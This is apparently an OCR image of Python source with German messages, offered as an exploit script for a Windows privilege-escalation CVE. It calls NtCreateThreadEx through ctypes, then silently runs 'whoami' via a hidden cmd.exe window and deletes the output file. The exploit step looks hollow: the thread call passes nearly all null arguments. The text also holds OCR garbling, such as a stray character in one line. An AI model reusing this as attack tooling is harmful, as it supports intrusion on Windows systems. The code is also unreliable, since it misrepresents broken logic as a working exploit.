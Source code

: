             return False

def remove_temp_files(temp_dir):
    """Entfernt rekursiv ein Verzeichnis und alle Inhalte."""
    try:
        if os.path.exists(temp_dir):
            shutil.rmtree(temp_dir)
            print(f"[INFO] Temporäres Verzeichnis '{temp_dir}' und Inhalt entfernt.")
    except Exception as e:
        print(f"[FEHLER] Fehler beim Entfernen von '{temp_dir}': {e}")

def generate_random_filename(length=8):
    """Generiert einen zufälligen Dateinamen."""
    chars = "abcdef0123456789"
    return ''.join(random.choice(chars) for _ in range(length))

def exploit_cve_2023_21674(output_dir=None):
    """Führt den Exploit für CVE-2023-21674 aus."""
    try:
        kernel32 = ctypes.windll.kernel32
        ntdll = ctypes.windll.ntdll

        if not kernel32 or not ntdll:
            raise OSError("[FEHLER] DLLs konnten nicht geladen werden.")

        NtCreateThreadEx = ntdll.NtCreateThreadEx
        NtCreateThreadEx.argtypes = [ctypes.POINTER(ctypes.wintypes.HANDLE), ctypes.c_uint32, ctypes.POINTER(ctypes.wintypes.LPVOID), ctypes.POINTER(ctypes.wintypes.LPVOID), ctypes.POINTER(ctypes.wintypes.LPVOID), ctypes.POINTER(ctypes.wintypes.LPVOID), ctypes.POINTER(ctypes.wintypes.LPVOID), ctypes.POINTER(ctypes.wintypes.LPVOID), ctypes.POINTER(ctypes.wintypes.LPVOID), ctypes.POINTER(ctypes.wintypes.LPVOID), ctypes.POINTER(ctypes.wintypes.LPVOID), ctypes.POINTER(ctypes.wintypes.LPVOID), ctypes.POINTER(ctypes.wintypes.LPVOID)]
        NtCreateThreadEx.restype = ctypes.c_long

        thread_handle = ctypes.wintypes.HANDLE()
        result = NtCreateThreadEx(ctypes.byref(thread_handle), 0, None, None, None, None, None, None, None, None, None, None, None)

        if result == 0:
            print("[INFO] CVE-2023-21674: Thread erfolgreich erstellt.")
            time.sleep(1)

            if output_dir is None:
                output_dir = tempfile.mkdtemp()
            output_filename = generate_random_filename() + ".txt"
          t output_path = os.path.join(output_dir, output_filename)

            for _ in range(3):
                subprocess.run(["cmd.exe", "/c", f"whoami > {output_path}"], capture_output=True, creationflags=subprocess.CREATE_NO_WINDOW)
                if os.path.exists(output_path):
                    break
                time.sleep(0.5)

            if os.path.exists(output_path):
                with open(output_path, "r") as f:
                    output_content = f.read()
                    print(f"[INFO] CVE-2023-21674: Ausgabe: {output_content.strip()}")
                os.remove(output_path)
            else:
                print("[FEHLER] CVE-2023-21674: Ausgabe nach mehreren Versuchen nicht erfasst.")
        else:
            print("[FEHLER] CVE-2023-21674: Thread-Erstellung fehlgeschlagen.")
